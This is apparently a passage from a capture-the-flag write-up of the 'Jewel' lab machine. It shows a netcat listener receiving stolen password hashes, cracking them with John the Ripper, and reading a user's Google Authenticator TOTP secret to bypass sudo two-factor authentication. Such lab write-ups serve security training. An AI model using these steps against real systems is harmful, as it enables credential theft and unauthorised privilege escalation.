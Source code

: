 		❯ nc -nvlp 4141 > hashes
		listening on [any] 4141 ...
		connect to [10.10.15.71] from (UNKNOWN) [10.10.10.211] 41058
		❯ cat hashes
		jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
		bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

		❯ john hashes -w=/usr/share/wordlists/rockyou.txt
		<snip>
		❯ john hashes --show
		bill:spongebob

		1 password hash cracked, 1 left

# Root 

* running `sudo -l` with user bill password asking for `Verification code`.

	  (remote) bill@jewel.htb:/home/bill$ sudo -l
	  [sudo] password for bill: 
	  Verification code: 
	  You type like I drive.
	  [sudo] password for bill: 
	  Verification code: 
	  Take a stress pill and think things over.
	  [sudo] password for bill: 
	  Verification code: 
	  sudo: 3 incorrect password attempts

* google tells me that sudo also have 2FA and that is enable here. found on this [article](https://www.linux.com/topic/desktop/how-set-2-factor-authentication-login-and-sudo/)
  * this article tells that sudo 2AF use `pam_google_authenticator.so`, and this module create a secret totp key file named `.google_authenticator` that use to create OTP.
  * this file present in bill home folder. 
  * from this module's [git repo](https://github.com/google/google-authenticator-libpam) that this file `.google_authenticator` created when configuring 2FA and use as a secret for generating OTP

		auth required pam_google_authenticator.so secret=${USER}/.google_authenticator

* And bill home folder `.google_authenticator` file contains the totp code that use to create OTP:

	  (remote) bill@jewel.htb:/home/bill$ cat .google_authenticator 
	  2UQI3R52WFCLE6JTLDCSJYMJH4
	  " WINDOW_SIZE 17
	  " TOTP_AUTH

* we can use that same code in any Oauth app to create that Verification code for sudo. i use this chrome [authenticator](https://chrome.google.com/webstore/detail/authenticator/bhghoamapcdpbohphigoooaddinpkbai?hl=en) addon
  * but success is not that easy, because in 2FA depend on clock time and if both ends time is diffrent while generating code it never works.

* spend so much time try to sync with the box time and then found [oathtool](https://packages.debian.org/sid/oathtool) that run from terminal and creats OTP using totp code. 
